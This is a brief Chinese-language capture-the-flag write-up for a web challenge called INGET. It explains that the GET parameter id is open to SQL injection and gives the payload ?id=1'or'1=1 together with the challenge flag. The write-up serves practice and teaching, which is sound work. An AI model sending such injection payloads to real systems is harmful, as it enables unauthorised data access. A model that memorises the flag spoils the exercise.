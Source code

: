 # INGET

## 分析

> 根据提示,是通过get方式传入id参数,考察的便是sql注入,可以用sql注入直接跑数据,也可以手工测试,经测试1'or'1=1就可以获取flag

## payload

> ?id=1'or'1=1

## flag

> cyberpeace{c7af44e3f32dcddca545b158e5dd6c58}